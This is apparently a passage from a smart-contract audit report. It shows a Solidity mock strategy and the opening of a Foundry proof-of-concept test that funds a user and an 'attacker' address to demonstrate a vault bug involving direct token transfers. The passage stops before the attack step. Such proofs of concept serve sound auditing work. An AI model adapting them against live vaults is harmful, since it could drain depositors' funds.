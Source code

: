 ```solidity
    function setVaultAddress(address vaultAddress_) external {
        vaultAddress = vaultAddress_;
    }

    function vault() external view returns (address) {
        return vaultAddress;
    }

    function setWantAddress(address wantAddress_) external {
        wantAddress = wantAddress_;
    }

    function want() external view returns (address) {
        return wantAddress;
    }

    function approveVaultSpender() external returns (bool) {
        return IERC20(wantAddress).approve(vaultAddress, type(uint256).max);
    }
}
```

Add this function test in the `VaultCooldown.t.sol` file and run.

NOW, also add these imports in the file:

```solidity
import {StrategyMock} from "./mock/StrategyMock.sol";
import {console} from "forge-std/console.sol";
```

```solidity 
    function testDirectTokenTransferBugAndImpact() public {
        address user1 = makeAddr("user1");
        address attacker = makeAddr("attacker");
        
        deal(address(assetMock), user1, 1000e18);
        deal(address(assetMock), attacker, 200e18);

        vm.startPrank(user1);
        assetMock.approve(address(sut), 1000e18);
        sut.deposit(1000e18);
        vm.stopPrank();

        StrategyMock strategy = new StrategyMock();
        strategy.setVaultAddress(address(sut));
        strategy.setWantAddress(address(sut.token()));
        strategy.setAvailableLiquidity(1000e18);
        strategy.setWithdrawLossPercent(500); // 5% withdrawal losses

        vm.startPrank(DEFAULT_ADMIN.addr);
        sut.addStrategy(address(strategy), 1000, 8000);
        vm.stopPrank();

        deal(address(assetMock), address(strategy), 1200e18);
        strategy.approveVaultSpender();
        
        vm.startPrank(address(strategy));
        sut.report(200e18, 0);
        vm.stopPrank();

        // Assert initial state: low totalIdle due to strategy allocation
        // Calculation: totalIdle = 1000e18 (deposits) - 600e18 (allocated to strategy) = 400e18
        uint256 initialTotalIdle = sut.totalIdle();
        uint256 initialTokenBalance = assetMock.balanceOf(address(sut));
```